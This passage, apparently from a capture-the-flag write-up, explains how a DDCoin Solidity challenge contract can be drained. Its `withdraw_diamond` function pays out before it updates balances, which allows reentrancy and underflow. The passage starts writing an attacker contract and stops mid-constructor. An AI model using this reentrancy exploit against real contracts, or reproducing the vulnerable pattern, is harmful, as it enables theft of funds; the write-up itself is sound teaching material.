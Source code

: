 Now we only need to call the `exchange_gold_to_diamond_cheap()` function with the password that we got in step 2! After executing this, the amount of gold coins is 0, and the amount of diamond coins is 1!

## Step 4: Getting a DDCoin

We're getting close to having a DDCoin! There is only an `exchange_diamond_to_ddcoin()` function which looks like this:

```sol
function exchange_diamond_to_ddcoin() external{
  require(diamond_coins >= exchange_cost, "You can't afford this exchange");
  diamond_coins = 0;
  ddcoin++;
}
```

To execute this function we need $10^{18}$ diamond coins. This is not feasible to get with our method of getting a diamond coin. Let's look at the function called `withdraw_diamond()`:

```sol
function withdraw_diamond(bytes32 _password) external{
  unchecked { //Gas saving
    require(password == _password, "Wrong password");
    require(diamond_coins >= 1, "You can't afford this exchange");
    (bool result,) = msg.sender.call{value: 1000000000000000000}("");
    require(result);
    diamond_coins -= 1;
  }
}
```

This function runs inside an `unchecked { ... }` block. As we learned earlier, this means that we can potentially trigger an integer over/underflow.

The function does the following

1. Checks if the password is correct
   - This is the password from earlier
2. Checks that we have at least 1 diamond.
3. Sends the caller 1 eth
4. Checks if it succeeded in sending the eth
5. Lastly subtracts one diamond coin

At first glance this function might look secure, but it is vulnerable to a Reentrancy attack. This attack is possible due to the way that ethereum is sent: `msg.sender.call{value: 1000000000000000000}("")`. This actually calls the `fallback()` function of the `msg.sender`. We can create our own smart contract that has a fallback function, and call the `withdraw_diamonds()` from there.

Let's write a smart contract that can exploit the reentrancy vulnerability:

```sol
// SPDX-License-Identifier: MIT
pragma solidity = 0.8.19;

bytes32 constant password = 0x446964596f755468696e6b5468617454686973576173546865466c6167000000;

interface IDDCoin {
    function withdraw_diamond(bytes32 _password) external;
}

contract ReentrancyAttack {
  IDDCoin victim;
  
  bool has_reentered = false;

  constructor (IDDCoin _victim) payable {
    victim = _victim;
```